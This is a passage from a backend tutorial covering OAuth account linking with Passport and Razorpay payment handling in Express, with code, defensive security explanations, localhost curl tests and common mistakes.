**Why "verified" matters (account pre-hijacking):** if you link on an *unverified* email, an attacker can create a provider account claiming `victim@gmail.com`, log in with it, and *take over the victim's existing account*. The reverse also exists: an attacker registers locally with the victim's email and a password they know *before* the victim ever signs in with Google. Later the victim signs in with Google and gets linked into an account the attacker still has the password to. Our defense: if the existing local account's email was never verified, we **wipe its password and revoke its sessions** when linking.

## Code

### `src/services/oauth.service.js`

```js
import { User } from '../models/User.js';
import { AppError } from '../utils/AppError.js';
import * as tokenService from './token.service.js';

const safeName = (name, email) => (name || email.split('@')[0]).trim().padEnd(2, '_').slice(0, 80);

export async function findOrCreateFromProvider({ provider, providerId, email, emailVerified, name, avatar }) {
  // 1. Stable identity match
  const linked = await User.findOne({ providers: { $elemMatch: { provider, providerId } } });
  if (linked) return linked;

  // From here on we rely on the EMAIL, so it must exist and be verified by the provider.
  if (!email || !emailVerified) {
    throw new AppError('Your account has no verified email', 400, 'OAUTH_EMAIL_UNVERIFIED');
  }

  // 2. Link to an existing account with the same (verified) email
  const existing = await User.findOne({ email: email.toLowerCase() });
  if (existing) {
    if (!existing.isEmailVerified) {
      // That local account was created by someone who never proved they own the email.
      // The real owner just proved it via the provider. Kick out the earlier registrant.
      existing.set('password', undefined);
      existing.isEmailVerified = true;
      existing.tokenVersion += 1;
      await tokenService.revokeAllForUser(existing._id);
    }
    existing.providers.push({ provider, providerId });
    if (!existing.avatar && avatar) existing.avatar = avatar;
    await existing.save();
    return existing;
  }

  // 3. Brand-new user. No password at all (login() already rejects password-less accounts).
  return User.create({
    name: safeName(name, email),
    email,
    avatar,
    isEmailVerified: true,
    providers: [{ provider, providerId }],
  });
}
```

### `src/config/passport.js`

```js
import passport from 'passport';
import { Strategy as GoogleStrategy } from 'passport-google-oauth20';
import { Strategy as GitHubStrategy } from 'passport-github2';
import { Strategy as DiscordStrategy } from 'passport-discord';
import { config } from './env.js';
import { logger } from '../utils/logger.js';
import { findOrCreateFromProvider } from '../services/oauth.service.js';

export const OAUTH_SCOPES = {
  google: ['profile', 'email'],
  github: ['user:email'], // GitHub quirk below
  discord: ['identify', 'email'],
};

const STRATEGIES = { google: GoogleStrategy, github: GitHubStrategy, discord: DiscordStrategy };

// Each provider describes "the same facts" differently. Normalize them into one shape.
const normalize = {
  google: (p) => {
    const e = p.emails?.[0];
    return {
      providerId: p.id,
      email: e?.value,
      emailVerified: e?.verified === true || p._json?.email_verified === true,
      name: p.displayName,
      avatar: p.photos?.[0]?.value,
    };
  },

  // GITHUB QUIRK: a user's public profile email is often null (they hide it). With the
  // 'user:email' scope, passport-github2 also fetches /user/emails: a LIST where each entry
  // has { value, primary, verified }. We must pick the PRIMARY *and* VERIFIED one, never emails[0].
  github: (p) => {
    const emails = p.emails ?? [];
    const pick = emails.find((e) => e.primary && e.verified) ?? emails.find((e) => e.verified);
    return {
      providerId: String(p.id),
      email: pick?.value,
      emailVerified: Boolean(pick),
      name: p.displayName || p.username,
      avatar: p.photos?.[0]?.value,
    };
  },

  discord: (p) => ({
    providerId: p.id,
    email: p.email,
    emailVerified: p.verified === true, // Discord tells us explicitly
    name: p.global_name || p.username,
    avatar: p.avatar ? `https://cdn.discordapp.com/avatars/${p.id}/${p.avatar}.png` : undefined,
  }),
};

export const enabledProviders = new Set();

export function configurePassport() {
  for (const [name, Strategy] of Object.entries(STRATEGIES)) {
    const { clientID, clientSecret } = config.oauth[name];
    if (!clientID || !clientSecret) {
      logger.warn(`OAuth provider "${name}" is disabled (missing credentials)`);
      continue;
    }

    passport.use(
      new Strategy(
        {
          clientID,
          clientSecret,
          callbackURL: `${config.serverUrl}/api/v1/auth/${name}/callback`,
          // scope in the constructor too: passport-github2 / passport-discord read it
          // to decide whether to fetch the emails / identity endpoints.
          scope: OAUTH_SCOPES[name],
        },
        // VERIFY CALLBACK: runs after the provider returned a profile.
        // done(err) = failure, done(null, user) = success. We never touch sessions.
        async (accessToken, refreshToken, profile, done) => {
          try {
            const user = await findOrCreateFromProvider({ provider: name, ...normalize[name](profile) });
            done(null, user);
          } catch (err) {
            done(err);
          }
        }
      )
    );
    enabledProviders.add(name);
  }
  return passport;
}
```

### Append to `src/controllers/auth.controller.js`

Add imports at the top:

```js
import crypto from 'node:crypto';
import passport from 'passport';
import { config } from '../config/env.js';
import { enabledProviders, OAUTH_SCOPES } from '../config/passport.js';
```

Then:

```js
const STATE_COOKIE = 'oauth_state';
// SameSite=LAX is REQUIRED here, even if the rest of the app uses Strict. The provider's redirect
// back to us is a cross-site top-level navigation; a Strict cookie wouldn't be sent, and the
// state check would always fail.
const stateCookieOpts = {
  httpOnly: true,
  secure: config.cookie.secure,
  sameSite: 'lax',
  path: '/api/v1/auth',
};

// Step 1: send the user to the provider.
export const oauthStart = (req, res, next) => {
  const { provider } = req.params;
  if (!enabledProviders.has(provider)) {
    return next(new AppError('Provider not enabled', 404, 'PROVIDER_NOT_ENABLED'));
  }
  const state = crypto.randomBytes(24).toString('hex');
  res.cookie(STATE_COOKIE, state, { ...stateCookieOpts, maxAge: 10 * 60 * 1000 });

  // session:false => no express-session, no serializeUser. We issue OUR OWN tokens later.
  passport.authenticate(provider, { session: false, scope: OAUTH_SCOPES[provider], state })(req, res, next);
};

const safeEqual = (a, b) => {
  if (typeof a !== 'string' || typeof b !== 'string') return false;
  const x = Buffer.from(a);
  const y = Buffer.from(b);
  return x.length === y.length && crypto.timingSafeEqual(x, y);
};

// Step 2: the provider sends the user back here.
export const oauthCallback = (req, res, next) => {
  const { provider } = req.params;
  // Errors go back to the FRONTEND as a short code in the URL (never details, never tokens).
  const fail = (code) => res.redirect(`${config.clientUrl}/login?error=${encodeURIComponent(code)}`);

  const expected = req.cookies?.[STATE_COOKIE];
  res.clearCookie(STATE_COOKIE, stateCookieOpts); // single-use
  if (!safeEqual(expected, req.query.state)) return fail('OAUTH_STATE_MISMATCH');
  if (req.query.error) return fail('OAUTH_DENIED'); // user clicked "Cancel" at the provider

  passport.authenticate(provider, { session: false }, async (err, user) => {
    if (err || !user) return fail(err instanceof AppError ? err.code : 'OAUTH_FAILED');
    try {
      // From here it's the same dual-token system as password login.
      setAuthCookies(res, await tokenService.issueTokenPair(user, meta(req)));
      res.redirect(`${config.clientUrl}/oauth/success`); // clean URL, tokens only in httpOnly cookies
    } catch (e) {
      next(e);
    }
  })(req, res, next);
};
```

### Modify `src/routes/auth.routes.js`

```js
import { z } from 'zod';
// ...
const providerParam = { params: z.object({ provider: z.enum(['google', 'github', 'discord']) }) };

// Keep these LAST in the file.
router.get('/:provider', validate(providerParam), ctrl.oauthStart);
router.get('/:provider/callback', validate(providerParam), ctrl.oauthCallback);
```

### Modify `src/app.js`

```js
import passport from 'passport';
import { configurePassport } from './config/passport.js';
// inside createApp(), after cookieParser/csrfGuard:
  configurePassport();
  app.use(passport.initialize());
```

## Pro tip / War story

> **The GitHub null-email bug.** Our GitHub login worked for me and failed for half the team: "Cannot read properties of undefined (reading 'value')". Their GitHub emails were *private*, so `profile.emails` was empty or `null` without the `user:email` scope, and with it, `emails[0]` wasn't necessarily the primary one. Two bugs: we crashed on missing emails *and* once linked a user to a **non-primary, unverified** address. Pick `primary && verified`, handle "no email" as a clean error.
>
> **Account takeover via unverified email.** A real bug class: a big platform linked on email without checking the `email_verified` claim. Attackers registered at an identity provider with the victim's address (the provider didn't verify), and logged in as the victim everywhere. Always demand a verified email, and prefer linking by provider id.

## Common mistakes

- Putting tokens (or the provider's `code`) in the redirect URL back to the frontend.
- No `state` check (login CSRF).
- `SameSite=Strict` on the state cookie (the check always fails).
- Linking accounts by unverified email, or by `emails[0]`.
- Using `session: true` and cookie-sessions *and* JWT in the same app. Pick one. We chose our own tokens.
- Not handling the user clicking "Deny" (`?error=access_denied`).
- Callback URL mismatch (`localhost` vs `127.0.0.1`, `http` vs `https`, trailing slash).

## Test it

OAuth needs a browser, but you can verify the start and the state check with curl:

```bash
# Start: expect a 302 to the provider with a state param, plus the oauth_state cookie
curl -i localhost:5000/api/v1/auth/github
# HTTP/1.1 302 Found
# Location: https://github.com/login/oauth/authorize?response_type=code&redirect_uri=...&scope=user%3Aemail&client_id=...&state=ab12...
# Set-Cookie: oauth_state=ab12...; Max-Age=600; Path=/api/v1/auth; HttpOnly; SameSite=Lax

# Callback without a matching state cookie -> rejected, redirected to the frontend with an error code
curl -i 'localhost:5000/api/v1/auth/github/callback?code=fake&state=forged'
# HTTP/1.1 302 Found
# Location: http://localhost:3000/login?error=OAUTH_STATE_MISMATCH
```

The full flow in a browser:

1. Open `http://localhost:5000/api/v1/auth/github` and approve.
2. You land at `http://localhost:3000/oauth/success` (a 404 is fine if you have no frontend yet).
3. In DevTools → Application → Cookies (`localhost`) see `accessToken` and `refreshToken`, both HttpOnly.
4. Visit `http://localhost:5000/api/v1/users/me` in the same tab. You get your profile. (Cookies are shared across ports on `localhost`.)

## Interview corner

**1. Walk me through the Authorization Code flow.**
Redirect to the provider with `client_id`, `redirect_uri`, `scope` and `state` → user consents → provider redirects back with a one-time `code` → our server exchanges the code plus client secret for tokens (server-to-server, so the browser never sees them) → fetch the profile → log the user into *our* system.

**2. What does `state` protect against, and what does PKCE?**
`state` binds the callback to the browser session that started the flow, which prevents login CSRF. PKCE binds the code exchange to whoever started it, which prevents stolen-authorization-code attacks, and is essential for public clients without a secret.

**3. How do you link accounts safely?**
Primary key is `(provider, providerId)`. Fall back to email *only if the provider verified it*. Never trust unverified emails, and neutralize unverified local accounts (wipe the password, revoke sessions) when linking.

**4. Why `session: false`, and what do you do after the callback?**
Sessions would add server-side session state and a second auth mechanism. We use Passport only to *authenticate* and then issue our own dual-token cookies, so OAuth and password users share one pipeline.

**5. Why not return the token in the redirect URL?**
URLs are logged and leaked via history, `Referer` and analytics. Cookies set on the redirect response avoid that.

---

# Chapter 13: Razorpay payments

## Why this exists

Taking money is where bugs cost real rupees. Rules we follow:

1. **The server decides the price.** The client never sends an amount.
2. **The browser is not a trustworthy witness.** A user can close the tab right after paying, or fake a success callback. The **webhook** (a signed server-to-server message from Razorpay) is the source of truth.
3. **Everything must be idempotent**, because webhooks are delivered **at least once** (retries and duplicates are normal).

## Mental model

Paying a bill at a restaurant with a card machine:

- The waiter (**our server**) writes the bill (an **order**, amount computed by us).
- The customer pays on the card machine (**Razorpay Checkout**).
- The machine prints a **signed receipt** that the customer carries back to the waiter (the *checkout signature*). Nice, but a customer could forge a receipt.
- The **bank phones the restaurant directly** (the *webhook*) and says "table 5 paid ₹998". *That* phone call is what we trust.



### Status lifecycle



## Setup

1. Create a Razorpay account and stay in **Test Mode**. Settings → API Keys → generate keys → put them in `.env` (`RAZORPAY_KEY_ID`, `RAZORPAY_KEY_SECRET`).
2. Settings → **Payment Capture**: use *automatic* capture. Otherwise payments stay `authorized` and `payment.captured` never fires.
3. Webhooks (Settings → Webhooks): later, with a public URL (we'll use ngrok). Set a secret and put the same value in `RAZORPAY_WEBHOOK_SECRET`. Subscribe to `payment.captured`, `payment.failed`, `refund.processed`.

## Code

### `src/config/razorpay.js`

```js
import Razorpay from 'razorpay';
import { config } from './env.js';

export const razorpay = new Razorpay({
  key_id: config.razorpay.keyId,
  key_secret: config.razorpay.keySecret, // server-side only: NEVER ship this to the browser
});
```

### `src/services/socket.service.js`

Payment events notify the user in real time. The real Socket.io server is attached in Chapter 14. This module is safe to call before then (it just does nothing if no server is attached):

```js
let io = null;

export const setIO = (instance) => {
  io = instance;
};

export const getIO = () => io;

export const emitToUser = (userId, event, payload) => io?.to(`user:${userId}`).emit(event, payload);

export const emitToAdmins = (event, payload) => io?.to('admins').emit(event, payload);

// Used on logout-all / password reset (wired up in Chapter 14).
export const disconnectUser = (userId) => io?.in(`user:${userId}`).disconnectSockets(true);
```

### `src/validators/order.validators.js`

```js
import { z } from 'zod';
import { objectId } from './common.js';

const pagination = {
  page: z.coerce.number().int().min(1).default(1),
  limit: z.coerce.number().int().min(1).max(50).default(20),
};

export const listOrdersSchema = { query: z.object(pagination) };

export const orderIdSchema = { params: z.object({ id: objectId }) };

export const adminListOrdersSchema = {
  query: z.object({
    ...pagination,
    status: z
      .enum(['pending_payment', 'paid', 'processing', 'shipped', 'delivered', 'cancelled', 'refunded'])
      .optional(),
  }),
};

export const updateStatusSchema = {
  params: z.object({ id: objectId }),
  // Admins can only move to these. 'paid' and 'refunded' come from payments, never from a manual call.
  body: z.object({ status: z.enum(['processing', 'shipped', 'delivered', 'cancelled']) }).strict(),
};

export const verifyPaymentSchema = {
  body: z
    .object({
      razorpay_order_id: z.string().min(1).max(100),
      razorpay_payment_id: z.string().min(1).max(100),
      razorpay_signature: z.string().min(1).max(200),
    })
    .strict(),
};
```

### `src/services/payment.service.js`

```js
import crypto from 'node:crypto';
import { razorpay } from '../config/razorpay.js';
import { redis } from '../config/redis.js';
import { config } from '../config/env.js';
import { Payment, PAYMENT_STATUS } from '../models/Payment.js';
import { Order, ORDER_STATUS } from '../models/Order.js';
import { Product } from '../models/Product.js';
import { Cart } from '../models/Cart.js';
import { AppError } from '../utils/AppError.js';
import { logger } from '../utils/logger.js';
import { emitToUser, emitToAdmins } from './socket.service.js';

const hmacHex = (secret, data) => crypto.createHmac('sha256', secret).update(data).digest('hex');

// timingSafeEqual: a normal === leaks, via response time, how many leading characters matched.
// It throws on different lengths, so compare lengths first.
function safeEqual(a, b) {
  const x = Buffer.from(String(a ?? ''));
  const y = Buffer.from(String(b ?? ''));
  return x.length === y.length && crypto.timingSafeEqual(x, y);
}

// ---------- 1. Create the Razorpay order for one of OUR orders ----------
export async function initiatePayment(order) {
  const rzpOrder = await razorpay.orders.create({
    amount: order.amount, // PAISE, an integer, computed by the server from DB prices
    currency: order.currency,
    receipt: String(order._id), // max 40 chars; our id lets us trace back from the Razorpay dashboard
    notes: { orderId: String(order._id), userId: String(order.user) },
  });

  await Payment.create({
    order: order._id,
    user: order.user,
    razorpayOrderId: rzpOrder.id,
    amount: order.amount,
    currency: order.currency,
  });
  order.razorpayOrderId = rzpOrder.id;
  await order.save();

  // keyId is PUBLIC (the checkout widget needs it). The key SECRET never leaves the server.
  return { keyId: config.razorpay.keyId, razorpayOrderId: rzpOrder.id, amount: order.amount, currency: order.currency };
}

// ---------- 2. Client-side signature check (a hint, NOT proof of payment) ----------
export async function verifyCheckoutSignature({ razorpayOrderId, razorpayPaymentId, signature }, userId) {
  // Scoped to the caller: you can't "verify" someone else's payment (IDOR).
  const payment = await Payment.findOne({ razorpayOrderId, user: userId });
  if (!payment) throw new AppError('Payment not found', 404, 'PAYMENT_NOT_FOUND');

  // Razorpay's documented formula: HMAC_SHA256(order_id + "|" + payment_id, KEY_SECRET)
  const expected = hmacHex(config.razorpay.keySecret, `${razorpayOrderId}|${razorpayPaymentId}`);
  if (!safeEqual(expected, signature)) {
    throw new AppError('Invalid payment signature', 400, 'INVALID_SIGNATURE');
  }

  // Only move created -> verified. If the webhook already made it 'captured', do NOT downgrade.
  await Payment.updateOne(
    { _id: payment._id, status: PAYMENT_STATUS.CREATED },
    { status: PAYMENT_STATUS.VERIFIED, signatureVerified: true, razorpayPaymentId }
  );

  const [fresh, order] = await Promise.all([Payment.findById(payment._id), Order.findById(payment.order)]);
  return { paymentStatus: fresh.status, orderStatus: order.status };
}

// ---------- 3. Webhook: the source of truth ----------
export function verifyWebhookSignature(rawBody, signature) {
  // Must be computed over the EXACT bytes Razorpay sent. If body-parser re-serialized the JSON
  // (key order, whitespace), the HMAC would never match. That's why this route uses express.raw().
  const expected = hmacHex(config.razorpay.webhookSecret, rawBody);
  return safeEqual(expected, signature);
}

export async function handleWebhook({ rawBody, signature, eventId }) {
  if (!Buffer.isBuffer(rawBody) || !verifyWebhookSignature(rawBody, signature)) {
    throw new AppError('Invalid webhook signature', 400, 'INVALID_SIGNATURE');
  }

  // IDEMPOTENCY layer 1: Razorpay retries and may deliver the same event twice.
  // SET NX = "set only if not exists": atomic, so exactly one delivery wins the right to process.
  const id = eventId ?? crypto.createHash('sha256').update(rawBody).digest('hex');
  const key = `wh:${id}`;
  const first = await redis.set(key, '1', 'EX', 60 * 60 * 24, 'NX');
  if (!first) return { duplicate: true };

  try {
    await dispatch(JSON.parse(rawBody.toString('utf8')));
  } catch (err) {
    // If processing FAILED, release the key. Otherwise Razorpay's retry would be dropped as a
    // "duplicate" and the payment would never be recorded.
    await redis.del(key);
    throw err; // -> 500 -> Razorpay retries later
  }
  return { duplicate: false };
}

async function dispatch(event) {
  switch (event.event) {
    case 'payment.captured': {
      const p = event.payload.payment.entity;
      return markCaptured({ razorpayOrderId: p.order_id, razorpayPaymentId: p.id, amount: p.amount });
    }
    case 'payment.failed': {
      const p = event.payload.payment.entity;
      return markFailed({ razorpayOrderId: p.order_id, reason: p.error_description });
    }
    case 'refund.processed': {
      const r = event.payload.refund.entity;
      return markRefunded({ razorpayPaymentId: r.payment_id, refundId: r.id });
    }
    default:
      return undefined; // events we don't care about: acknowledge with 200 and move on
  }
}

// IDEMPOTENCY layer 2: state transitions are conditional DB updates. Even without Redis,
// processing "captured" twice changes nothing the second time.
async function markCaptured({ razorpayOrderId, razorpayPaymentId, amount }) {
  const payment = await Payment.findOneAndUpdate(
    {
      razorpayOrderId,
      amount, // the amount Razorpay says it captured MUST equal what we asked for
      status: { $in: [PAYMENT_STATUS.CREATED, PAYMENT_STATUS.VERIFIED, PAYMENT_STATUS.FAILED] },
    },
    { status: PAYMENT_STATUS.CAPTURED, razorpayPaymentId, capturedAt: new Date() },
    { new: true }
  );
  if (!payment) {
    logger.warn(`payment.captured ignored (unknown, duplicate or amount mismatch) for ${razorpayOrderId}`);
    return;
  }
  await fulfilOrder(payment);
}

async function fulfilOrder(payment) {
  const order = await Order.findOneAndUpdate(
    { _id: payment.order, status: ORDER_STATUS.PENDING_PAYMENT },
    { status: ORDER_STATUS.PAID, paidAt: new Date() },
    { new: true }
  );
  if (!order) return; // already paid / cancelled; nothing to do

  // Decrement stock atomically, only if enough remains ($gte in the filter).
  // This is where overselling is caught: if two buyers raced for the last unit, the second
  // decrement matches nothing, and we flag it for a human (refund / backorder).
  for (const item of order.items) {
    const res = await Product.updateOne(
      { _id: item.product, stock: { $gte: item.quantity } },
      { $inc: { stock: -item.quantity } }
    );
    if (res.modifiedCount === 0) {
      logger.error(`OVERSOLD: product ${item.product} short by order ${order._id}; needs manual action`);
    }
  }

  await Cart.updateOne({ user: order.user }, { $set: { items: [] } });

  const payload = { orderId: String(order._id), status: order.status, amount: order.amount };
  emitToUser(order.user, 'payment:captured', payload);
  emitToUser(order.user, 'order:paid', payload);
  emitToAdmins('order:new', payload);
}

async function markFailed({ razorpayOrderId, reason }) {
  const payment = await Payment.findOneAndUpdate(
    { razorpayOrderId, status: { $in: [PAYMENT_STATUS.CREATED, PAYMENT_STATUS.VERIFIED] } },
    { status: PAYMENT_STATUS.FAILED, failureReason: reason?.slice(0, 200) },
    { new: true }
  );
  if (!payment) return;
  // The order stays pending_payment: Razorpay lets the user retry on the same order.
  emitToUser(payment.user, 'payment:failed', { orderId: String(payment.order), reason: payment.failureReason });
}

async function markRefunded({ razorpayPaymentId, refundId }) {
  const payment = await Payment.findOneAndUpdate(
    { razorpayPaymentId, status: PAYMENT_STATUS.CAPTURED },
    { status: PAYMENT_STATUS.REFUNDED, refundId },
    { new: true }
  );
  if (!payment) return;
  const order = await Order.findByIdAndUpdate(payment.order, { status: ORDER_STATUS.REFUNDED }, { new: true });
  emitToUser(payment.user, 'order:status', { orderId: String(order._id), status: order.status });
}

// ---------- 4. Refunds (admin) ----------
export async function refundOrder(orderId) {
  const order = await Order.findById(orderId);
  if (!order) throw new AppError('Order not found', 404, 'ORDER_NOT_FOUND');
  const refundable = [ORDER_STATUS.PAID, ORDER_STATUS.PROCESSING, ORDER_STATUS.SHIPPED, ORDER_STATUS.DELIVERED];
  if (!refundable.includes(order.status)) {
    throw new AppError('Order cannot be refunded in its current state', 409, 'ORDER_NOT_REFUNDABLE');
  }

  // Atomic claim: only ONE admin click can start a refund. Prevents double refunds.
  const payment = await Payment.findOneAndUpdate(
    { order: order._id, status: PAYMENT_STATUS.CAPTURED, refundId: { $exists: false } },
    { refundId: 'pending' }
  );
  if (!payment || !payment.razorpayPaymentId) {
    throw new AppError('No refundable payment (or refund already started)', 409, 'REFUND_UNAVAILABLE');
  }

  try {
    const refund = await razorpay.payments.refund(payment.razorpayPaymentId, {
      amount: payment.amount, // full refund; pass less for a partial refund
      speed: 'normal',
      notes: { orderId: String(order._id) },
    });
    await Payment.updateOne({ _id: payment._id }, { refundId: refund.id });
    // We do NOT mark the order 'refunded' yet. The refund.processed webhook does that.
    return { refundId: refund.id, status: refund.status };
  } catch (err) {
    await Payment.updateOne({ _id: payment._id }, { $unset: { refundId: 1 } }); // release the claim
    throw err;
  }
}
```

### `src/services/order.service.js`

```js
import { Cart } from '../models/Cart.js';
import { Order, ORDER_STATUS, ADMIN_TRANSITIONS } from '../models/Order.js';
import { AppError } from '../utils/AppError.js';
import * as paymentService from './payment.service.js';
import { emitToUser } from './socket.service.js';

export async function checkout(user) {
  const cart = await Cart.findOne({ user: user._id }).populate('items.product');
  const live = (cart?.items ?? []).filter((i) => i.product?.isActive);
  if (live.length === 0) throw new AppError('Your cart is empty', 400, 'CART_EMPTY');

  for (const i of live) {
    if (!i.product.hasStock(i.quantity)) {
      throw new AppError(`Not enough stock for "${i.product.name}"`, 409, 'INSUFFICIENT_STOCK');
    }
  }

  // Name and price are SNAPSHOTTED from the DB now. The client sent nothing but "checkout".
  const items = live.map((i) => ({
    product: i.product._id,
    name: i.product.name,
    price: i.product.price,
    quantity: i.quantity,
  }));
  const amount = items.reduce((sum, i) => sum + i.price * i.quantity, 0);

  const order = await Order.create({ user: user._id, items, amount });
  try {
    const payment = await paymentService.initiatePayment(order);
    return { order, payment };
  } catch (err) {
    await Order.deleteOne({ _id: order._id }); // Razorpay failed, so don't leave a zombie order
    throw err;
  }
}

export async function listForUser(userId, { page, limit }) {
  const filter = { user: userId };
  const [items, total] = await Promise.all([
    Order.find(filter).sort({ createdAt: -1 }).skip((page - 1) * limit).limit(limit).lean(),
    Order.countDocuments(filter),
  ]);
  return { items, page, limit, total, pages: Math.ceil(total / limit) };
}

// OWNERSHIP IN THE QUERY (Chapter 9): someone else's order is simply "not found".
export async function getForUser(userId, orderId) {
  const order = await Order.findOne({ _id: orderId, user: userId }).lean();
  if (!order) throw new AppError('Order not found', 404, 'ORDER_NOT_FOUND');
  return order;
}

// ---------- admin ----------
export async function listAll({ page, limit, status }) {
  const filter = status ? { status } : {};
  const [items, total] = await Promise.all([
    Order.find(filter)
      .sort({ createdAt: -1 })
      .skip((page - 1) * limit)
      .limit(limit)
      .populate('user', 'name email')
      .lean(),
    Order.countDocuments(filter),
  ]);
  return { items, page, limit, total, pages: Math.ceil(total / limit) };
}

export async function updateStatus(orderId, nextStatus) {
  const order = await Order.findById(orderId);
  if (!order) throw new AppError('Order not found', 404, 'ORDER_NOT_FOUND');

  const allowed = ADMIN_TRANSITIONS[order.status] ?? [];
  if (!allowed.includes(nextStatus)) {
    throw new AppError(`Cannot move order from ${order.status} to ${nextStatus}`, 409, 'INVALID_TRANSITION');
  }

  // Conditional update: if another admin changed it meanwhile, we match nothing instead of clobbering.
  const updated = await Order.findOneAndUpdate(
    { _id: orderId, status: order.status },
    { status: nextStatus },
    { new: true }
  );
  if (!updated) throw new AppError('Order was modified, please retry', 409, 'CONFLICT');

  emitToUser(updated.user, 'order:status', { orderId: String(updated._id), status: updated.status });
  return updated;
}

export { ORDER_STATUS };
```

### Controllers

#### `src/controllers/order.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import * as orderService from '../services/order.service.js';

export const checkout = asyncHandler(async (req, res) => {
  const data = await orderService.checkout(req.user); // identity from the token, nothing from the body
  res.status(201).json({ status: 'success', data });
});

export const list = asyncHandler(async (req, res) => {
  res.json({ status: 'success', data: await orderService.listForUser(req.user._id, req.valid.query) });
});

export const getOne = asyncHandler(async (req, res) => {
  const order = await orderService.getForUser(req.user._id, req.valid.params.id);
  res.json({ status: 'success', data: { order } });
});
```

#### `src/controllers/payment.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import * as paymentService from '../services/payment.service.js';

export const verify = asyncHandler(async (req, res) => {
  const b = req.valid.body;
  const result = await paymentService.verifyCheckoutSignature(
    {
      razorpayOrderId: b.razorpay_order_id,
      razorpayPaymentId: b.razorpay_payment_id,
      signature: b.razorpay_signature,
    },
    req.user._id
  );
  // 'pending_payment' here is NORMAL: the webhook finalizes. The client waits for the socket event.
  res.json({ status: 'success', data: result });
});

export const webhook = asyncHandler(async (req, res) => {
  const result = await paymentService.handleWebhook({
    rawBody: req.body, // a Buffer, because this route uses express.raw()
    signature: req.get('x-razorpay-signature'),
    eventId: req.get('x-razorpay-event-id'),
  });
  // Always answer fast with 2xx once we've handled (or safely deduped) the event.
  res.json({ status: 'success', data: { received: true, duplicate: result.duplicate } });
});
```

#### `src/controllers/admin.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import * as orderService from '../services/order.service.js';
import * as paymentService from '../services/payment.service.js';

export const listOrders = asyncHandler(async (req, res) => {
  res.json({ status: 'success', data: await orderService.listAll(req.valid.query) });
});

export const updateOrderStatus = asyncHandler(async (req, res) => {
  const order = await orderService.updateStatus(req.valid.params.id, req.valid.body.status);
  res.json({ status: 'success', data: { order } });
});

export const refundOrder = asyncHandler(async (req, res) => {
  const result = await paymentService.refundOrder(req.valid.params.id);
  // 202 Accepted: the refund is INITIATED; the refund.processed webhook completes it.
  res.status(202).json({ status: 'success', data: result });
});
```

### Routes

#### `src/routes/order.routes.js`

```js
import { Router } from 'express';
import { authenticate } from '../middleware/auth.js';
import { validate } from '../middleware/validate.js';
import * as ctrl from '../controllers/order.controller.js';
import { listOrdersSchema, orderIdSchema } from '../validators/order.validators.js';

const router = Router();
router.use(authenticate);

router.post('/checkout', ctrl.checkout);
router.get('/', validate(listOrdersSchema), ctrl.list);
router.get('/:id', validate(orderIdSchema), ctrl.getOne);

export default router;
```

#### `src/routes/payment.routes.js`

```js
import { Router } from 'express';
import { authenticate } from '../middleware/auth.js';
import { validate } from '../middleware/validate.js';
import * as ctrl from '../controllers/payment.controller.js';
import { verifyPaymentSchema } from '../validators/order.validators.js';

const router = Router();

router.post('/verify', authenticate, validate(verifyPaymentSchema), ctrl.verify);

export default router;
```

#### `src/routes/webhook.routes.js`

```js
import { Router } from 'express';
import express from 'express';
import * as ctrl from '../controllers/payment.controller.js';

const router = Router();

// express.raw => req.body is the untouched Buffer. No auth middleware, because Razorpay has no cookie.
// The HMAC signature IS the authentication.
router.post('/', express.raw({ type: 'application/json', limit: '100kb' }), ctrl.webhook);

export default router;
```

#### `src/routes/admin.routes.js`

```js
import { Router } from 'express';
import { authenticate, authorize } from '../middleware/auth.js';
import { validate } from '../middleware/validate.js';
import * as ctrl from '../controllers/admin.controller.js';
import {
  adminListOrdersSchema,
  updateStatusSchema,
  orderIdSchema,
} from '../validators/order.validators.js';

const router = Router();

// One line protects every admin route below, including ones added later.
router.use(authenticate, authorize('admin'));

router.get('/orders', validate(adminListOrdersSchema), ctrl.listOrders);
router.patch('/orders/:id/status', validate(updateStatusSchema), ctrl.updateOrderStatus);
router.post('/orders/:id/refund', validate(orderIdSchema), ctrl.refundOrder);

export default router;
```

### Modify `src/routes/index.js`

```js
import orderRoutes from './order.routes.js';
import paymentRoutes from './payment.routes.js';
import adminRoutes from './admin.routes.js';
// ...
router.use('/orders', orderRoutes);
router.use('/payments', paymentRoutes);
router.use('/admin', adminRoutes);
```

### Modify `src/app.js`: mount the webhook BEFORE `express.json()`

```js
import webhookRoutes from './routes/webhook.routes.js';
// ...
  app.use(globalLimiter);

  // MUST come before express.json(). Once the JSON parser has consumed the stream, the raw bytes
  // are gone and the signature can never be verified.
  app.use('/api/v1/payments/webhook', webhookRoutes);

  app.use(express.json({ limit: '10kb' }));
```

## A minimal client to pay in test mode

Save as `checkout-test.html`, serve it from a port that's in `CLIENT_ORIGINS` (e.g. `npx serve -l 3000 .`), and log in from the same browser first (`fetch` login below, or via OAuth):

```html
<script src="https://checkout.razorpay.com/v1/checkout.js"></script>
<button id="pay">Pay</button>
<script>
const API = 'http://localhost:5000/api/v1';
const call = (path, body) => fetch(API + path, {
  method: 'POST', credentials: 'include',          // send/receive cookies
  headers: { 'Content-Type': 'application/json' },
  body: body ? JSON.stringify(body) : undefined,
}).then((r) => r.json());

document.getElementById('pay').onclick = async () => {
  await call('/auth/login', { email: 'bob@example.com', password: 'Passw0rdOK' });
  const { data } = await call('/orders/checkout');
  new Razorpay({
    key: data.payment.keyId,
    order_id: data.payment.razorpayOrderId,
    amount: data.payment.amount,
    currency: 'INR',
    handler: async (res) => console.log('verify ->', await call('/payments/verify', res)),
  }).open();
};
</script>
```

Razorpay test card: `4111 1111 1111 1111`, any future expiry, any CVV; the test OTP page has a "Success" button.

## Pro tip / War story

> **"Paid but no order."** Early on we marked orders paid in the *browser callback*. Mobile users on flaky networks paid, the app got killed before the callback fired, and we had money with no order. Support tickets for a week. Webhooks fix this because Razorpay retries until we return 2xx, independent of the user's device.
>
> **The silent duplicate.** We deduped webhooks by event id, but wrote the dedupe key *before* processing and never released it on failure. A DB blip made processing throw; Razorpay retried; we said "duplicate, ignoring" with a 200. Payment captured, order never fulfilled. Now: on failure, delete the dedupe key and return 5xx. (The conditional DB updates are the second safety net.)
>
> **Body parser vs HMAC.** If you ever see "invalid signature" on a payload you *know* is genuine, check that nothing ran `express.json()` before your webhook route.

## Common mistakes

- Trusting `amount` from the client.
- Treating the checkout success callback as proof of payment.
- `===` for signature comparison (timing attack); use `timingSafeEqual`.
